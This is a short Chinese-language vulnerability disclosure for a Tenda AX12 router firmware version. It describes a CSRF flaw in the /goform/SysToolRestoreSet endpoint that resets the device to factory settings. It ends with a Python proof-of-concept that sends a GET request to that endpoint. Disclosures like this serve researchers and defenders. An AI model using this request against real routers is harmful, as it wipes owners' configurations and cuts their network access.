

## 漏洞描述 ##

设备：Tenda-AX12 V22.03.01.21_CN([https://www.tenda.com.cn/download/detail-3237.html](https://www.tenda.com.cn/download/detail-3237.html))

漏洞类型：跨站点请求伪造(CSRF)

攻击效果：设备恢复出厂设置

## 漏洞成因

提供的/goform/SysToolRestoreSet接口函数，在身份验证的前提下，它允许远程攻击者将设备恢复为出厂设置。



## POC

在身份验证的前提下，访问一下此接口即可。

```python
import requests

url = "http://ip/goform/SysToolRestoreSet"

r = requests.get(url)

print(r.content)
```


